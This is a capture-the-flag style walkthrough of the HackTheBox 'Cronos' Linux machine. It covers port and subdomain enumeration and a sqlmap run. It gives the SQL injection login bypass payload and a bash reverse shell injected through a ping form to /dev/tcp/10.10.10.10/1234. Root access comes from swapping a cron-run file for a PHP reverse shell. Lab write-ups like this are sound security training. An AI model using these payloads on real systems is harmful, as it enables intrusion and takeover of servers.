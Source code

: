 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Cronos/logo.png
date: 2023-03-04 09:45:47+07:00
modified: 2023-03-04 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/1
  name: ch4p
tags: [OS Command Injection, cronos, PHP, Web, DNS, Hackthebox, Writeup, SQL Injection, SQLMAP, Reverse Shell, Subdomain Brute-Forcing, Cronjob, Linpeas, Apache, URL Encoding, Privilege Escalation, Linux, OSCP]
title: Cronos - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Cronos is a **medium** Linux machine that focuses mainly on different vectors for enumeration and also emphasises the risks associated with adding world-writable files to the root crontab. This machine also includes an introductory-level SQL injection vulnerability



# Enumeration

First I check for available open ports.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Cronos/1.png)

|Ports|Service
|:-------------:|:-------------:|
|22| ssh OpenSSH 7.2p2 (4Ubuntu2.1)
|53| DNS
|80| Apache httpd 2.4.18

Next, I did directory brute-forcing but nothing interesting showed up. 

As there is a DNS server running I did a subdomain brute-forcing.

![](https://photos.squarezero.dev/file/abir-images/Cronos/2.png)



# Foothold

Upon visiting the subdomain I found a login page.

![](https://photos.squarezero.dev/file/abir-images/Cronos/3.png)

I have intercepted the request and saved the request as file.

![](https://photos.squarezero.dev/file/abir-images/Cronos/4.png)

Now I used SQLMAP with the file to find credentials for the website.

`sqlmap -r sql.req --batch --dump --level 5 --risk 3`

![](https://photos.squarezero.dev/file/abir-images/Cronos/5.png)

I tried the login but that didn't work. So, I tried SQL injection with user admin.

Payload → `admin'-- -`

Now I got in and found traceroute/ping option.

![](https://photos.squarezero.dev/file/abir-images/Cronos/6.png)

This looks like an OS command injection vulnerability.
So I intercepted the request and used a bash reverse shell to make the server connect to me.

Payload → `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1';`

**Note: Make sure the payload is URL encoded.**

![](https://photos.squarezero.dev/file/abir-images/Cronos/7.png)

And we got a shell !!

![](https://photos.squarezero.dev/file/abir-images/Cronos/8.png)

# Privilege Escalation

After checking with Linpeas I found a cronjob running with root permission.

![](https://photos.squarezero.dev/file/abir-images/Cronos/9.png)

So I have replaced the file with PHP-reverse-shell and renamed it to artisan.

![](https://photos.squarezero.dev/file/abir-images/Cronos/10.png)

After the cronjob executed I got a reverse shell with Root !! 
